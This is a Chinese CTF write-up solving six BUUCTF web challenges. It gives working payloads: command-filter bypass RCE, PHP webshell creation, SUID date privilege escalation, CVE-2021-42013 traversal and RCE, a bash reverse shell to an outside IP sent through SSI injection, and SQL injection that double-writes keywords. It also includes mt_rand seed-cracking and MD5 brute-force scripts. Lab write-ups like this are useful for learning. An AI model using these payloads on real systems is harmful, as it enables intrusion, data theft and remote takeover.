[buuctf] web区 write up 7
===

## [NewStarCTF 公开赛赛道]So Baby RCE

### 代码审计

典中典之开门审计代码:

```php
 <?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/et|echo|cat|tac|base|sh|more|less|tail|vi|head|nl|env|fl|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["cmd"])){
       echo "Don't Hack Me";
    }else{
        system($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

非常一目了然的 RCE, 需要对 `preg_match()` 作 bypass:

### `preg_match()` 函数常见绕过

1. PCRE 回溯上限:

    针对非惰性匹配 (无 `?` 的贪婪模式匹配), 只要构造的模式字符串足够长, 调用链足够深, 就会触发**调用上限**, 函数**抛回 False 值**, 从而实现绕过; 其原理是 php 正则匹配函数是基于 PCRE 实现的, 最直白的来说, 匹配的实质是一个**有限状态自动机**,回溯次数具有**上限**, 不能无限调用;

2. `%0A` 绕过:

    常用于包含 `.` 且不含 `/m` 选项的 `preg_match()`, 默认情况下这种匹配是只限于第一行的, 通过 `%0A` (换行符) 即可实现绕过;

3. 数组绕过:

    传一个数组进去, `preg_match()` 无法处理字符串, 会返回 `False`; 不过没有 `toString()` 直接用 `system()` 执行会报错 (Array);

### 调整 payload

输入 ls 有正常回显, 接下俩考虑怎么绕过就行了:


注意正则中没有过滤控制符, `{}` `$` `&`等字符, 考虑用管道符: 

> 注意 `&&` 需要 url 编码; 该控制符的含义为**严格逻辑与**, 需要前后都为真, 按从左到右顺序执行, 如果左边语句为假, 则直接退出;

```bash
cd${IFS}..%26%26ls
```


成功, 接下来慢慢遍历找就行了:

```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ls
```


```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ca${Z}t${IFS}ffff${Z}llllaaaaggggg
```

爆出flag: `flag{239fe0bd-010e-450e-afcc-c603d3ecace7} `


## [NewStarCTF 公开赛赛道]So Baby RCE Again

### 代码审计

同样是代码审计开门:

```php
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/bash|curl/i',$_GET["cmd"])){
        echo "Hacker!";
    }else{
        shell_exec($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

和上一题最大的区别是没用 `system()` 而是 `shell_exec()`, 其区别在于 `system()` 会打印输出到网页上 (可见), 后者不会。

这一题禁用了 `bash`, `curl` 应该主要是为防反弹 shell 直接把 shell 给弹回去;

那么马上想到可以用 webshell 的方式创建一个木马:

### webshell

创建 webshell 的指令, 有两个示例:

```bash
php -r "file_put_contents('shell.php', '<?php @eval(\$_POST[\"shell\"]);?>');"

# 或者用这个简单版也行;
echo '<?php @eval($_POST[1])?>' > webshell.php

```
> 注意:
> **引号冲突问题**, 一定要用双引号包裹单引号, 因为这里的命令是要放在 shell 里执行, 而 shell 中 `\' => '` 这样的表示方式是不存在的;


蚁剑连接:


找到 flag 之后读不出来, 应该是需要提权

### 提权

#### 枚举

用 find 找找 set UID = root 的文件:

```bash
find / -perm -u=s -type f 2>/dev/null
```


注意到 date 指令是可用的;

#### date 指令

```bash
# 输出当前时间
date

# 格式化输出
date +"%Y-%m-%d %H:%M:%S"

# 需 sudo, 设置系统时间
sudo date -s "2000-01-01 12:00:00"

# 读取文件日期, 这个指令实际上是把目标文件按照
# %Y-%m-%d %H:%M:%S
# 的格式进行读取
date -f filename
```

显然 `sudo date -f /ffll444aaggg` 即可。拿到 `flag{e7a2946a-2d0a-4f5f-bfa6-3cce34647a61}`


读其他文件也是能做到的, 比如 `/etc/shadow`;

## [NewStarCTF 公开赛赛道]Unsafe Apache

> 题目描述:  Check In And The End!

### 信息泄露

点进去是 `index.html` 界面, 没什么内容, 抓包发现问题;





注意发回的包是 304 Not Modified, 结合 apache 了解一下 304 状态码:

304 是 **HTTP 缓存控制的一部分**, 请求中一般会携带 `If-Modified-Since` 或 `If-None-Match`。而服务器启用了 ETag / Last-Modified: 

去掉请求里的这两个标识, 就变成了正常的访问, 响应为 200 , 不过主体没变。



注意 304 响应里也可能有信息, 例如这里的:

```
Server: Apache/2.4.50 (Unix)
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
ETag: "2d-432a5e4a73a80"
```

`Server` 爆出了服务保本, Tomcat 生成的 Hash/文件 inode 信息; 而 `Etag` 中的格式为 "文件大小(hex 格式)" + 文件的 inode 或修改时间戳;

### Apache/2.4.50 CVE-2021-42013

根据爆出的这个比较老的版本号搜索漏洞, 能搜到 CVE-2021-42013 **路径穿越**漏洞:

CVE-2021-42013 是由 CVE-2021-41773 的不完整修复导致的漏洞，攻击者可以使用路径遍历攻击将URL映射到由类似别名指令配置的目录之外的文件。

其原理就是对 url 的解析存在问题, 导致 `/icons/` 这个目录下双重编码 `.` 可以绕过服务器对路径穿越 `..` 的过滤:

```
/icons/.%%32%65/
# 或
/icons/.%2e/
```

#### 读取任意文件

试试读 `/etc/passwd`:



#### 执行任意代码 (RCE):

服务器上启用 `mods cgi` 或 `cgid` 后, 从 `/cgi-bin/` 穿越出去的路径可以执行任意代码, 实现方式为用 POST 方法(传参) + 访问 `/bin/bash` / `/bin/sh`:

试试弹个 `whoami` 回来:



接下来尝试读根目录, 这里尝试了 `ls%20/` 发现没有回显, 可能是分步解析的问题, 也许这里需要用 bash 的语法, 换用 `ls{IFS}/` 来代替空格, 成功:





拿到 flag: `flag{d9fa9969-60cf-4727-aa85-d1142da75b2d}`

## [GWCTF 2019]枯燥的抽奖

### 代码审计

```php
 <?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php"); 
```

这个 `mt_rand()` 函数, 官方手册的描述如下:

> 很多老的 libc 的随机数发生器具有一些不确定和未知的特性而且很慢。`mt_rand()` 函数是旧的 `rand()` 的临时替代。该函数用了**梅森旋转**中已知的特性作为随机数发生器，它可以产生随机数值的平均速度比 libc 提供的 `rand()` 快四倍。

> 对于给定的值, 其 `mt_rand()` 的值是可预测固定的。

抓个包可以发现会话没有重置, 每次发送的 session 是不变的;

> [PHP mt_rand安全杂谈及应用场景详解](https://www.freebuf.com/vuls/192012.html)

### php mt_rand

```python
str1='abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ' #加密用串
str2 = 'Hd2wBLK9uE'  # 已知串
length = len(str2)
res=''
for i in range(len(str2)):
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res+=str(j)+' '+str(j)+' '+'0'+' '+str(len(str1)-1)+' '
            break
print(res)
```

得到: `43 43 0 61 3 3 0 61 28 28 0 61 22 22 0 61 37 37 0 61 47 47 0 61 46 46 0 61 35 35 0 61 20 20 0 61 40 40 0 61`

接下来用这个工具: [PHP mt_seed](https://github.com/openwall/php_mt_seed)

```bash
time ./php_mt_seed 43 43 0 61 3 3 0 61 28 28 0 61 22 22 0 61 37 37 0 61 47 47 0 61 46 46 0 61 35 35 0 61 20 20 0 61 40 40 0 61
```

爆出 seed: `640613494`



代入源码里就能得到 flag:  `Hd2wBLK9uE3aQuCg5IHK`

```php
<?php
mt_srand(640613494);  
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
} 
print($str);
```


## [BJDCTF2020]EasySearch

### 目录扫描

打开是个登录界面, 尝试了一下多种姿势的 sql 注入, 都没成功, 源码也没东西, 只能用 dirsearch 扫个盘了,扫出 `index.php.swp` 文件;

### 代码审计

```php
<?php
	# 打开输出缓冲
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        # 管理员id : 6d0bc1
		$admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

### 爆破 md5

接下来只需要撞一下 md5, 暴力枚举:

```python
#!/usr/bin/env python3
import hashlib
import itertools
import string

# 已知目标
target = "6d0bc1"

# 可选字符集
charset = string.ascii_letters + string.digits  # a-zA-Z0-9

max_len = 5  

def md5_prefix(s):
    return hashlib.md5(s.encode()).hexdigest()[:6]

# 暴力枚举
for length in range(1, max_len + 1):
    for pwd_tuple in itertools.product(charset, repeat=length):
        pwd = ''.join(pwd_tuple)
        if md5_prefix(pwd) == target:
            print(f"[+] Found password: {pwd}")
            exit(0)

print("[-] Not found")
```

撞出: [+] Found password: RhPd

带着 `6d0bc1`:`RhPd` 即可登录成功。

### SHTML

接下来审计代码, 发现这个登录非常奇怪, 实际上 username 只是起到了在登录界面回显的作用, 完全不参与任何身份验证, 并且回显直接是以写入的方式写在了一个 shtml 上。

> shtml 是使用 SSI (Server Side Include) 的html文件扩展名，SSI (Server Side Include), 是一种类似于ASP的基于服务器的网页制作技术。

#### 常用指令

- `<!--#exec cmd=”cat /etc/passwd”-->`: 显示密码文件
- `<!--#exec cmd="dir"-->`: 显示当前目录的文件夹和文件
- `<!--#echo var="REMOTE_ADDR"-->`: 打印变量, 一般打印一些全局变量

#### shtml-shell

一个可用的反弹 shell

```html
<!--#exec cmd="bash -c 'bash -i >& /dev/tcp/10.88.15.142/4444 0>&1'" --> 
```

#### 利用

卡了半天发现写入的 shtml 地址就在回显的包里(Url_Is_Here):



尝试 POST username=payload: 

```html
</h1><h1>1111</h1><!--#exec cmd="cat /etc/passwd"--><h1>
```



接下来开启 ovpn 发出反弹 shell

```html
<!--#exec cmd="bash -c 'bash -i >& /dev/tcp/10.88.15.142/4444 0>&1'" --> 
```



根目录下找到一个 flag + 一串哈希的文件夹, 读出 flag: `flag{83f324c2-81ba-4a9d-97d2-a5d5d72a777d}`。


## [WUSTCTF2020] 颜值成绩查询

### 题解

查询界面是 GET 传参, 尝试 SQL 注入: 

```
?stunum=1 --+
```



此处存在注入; 且 `1/**/or/**/1=1/**/--` 可行, 但 `1 or 1=1` 显示错误, 说明过滤了空格;

用 `order by` 探测出回显字段为 3 段, 接下来尝试联合查询注入:

```
0/**/union/**/select/**/1,database(),3/**/--
```

回显 `not exist`, 结合前面的空格过滤之后不报错, 仅显示号码不存在, 猜测可能是直接删除, 双写 union, select 等关键字:

```sql
0/**/ununionion/**/select/**/1,2,database()/**/--
```



表名:

```sql
-1/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema="ctf"--
```
  


列名:

```sql
-1/**/ununionion/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name="flag"--
```


字段值:

```sql
-1/**/ununionion/**/select/**/1,group_concat(flag),group_concat(value)/**/from/**/flag--
```

爆出 flag: `flag{5ec6f226-82cb-477e-b253-5a1c1946499c}`

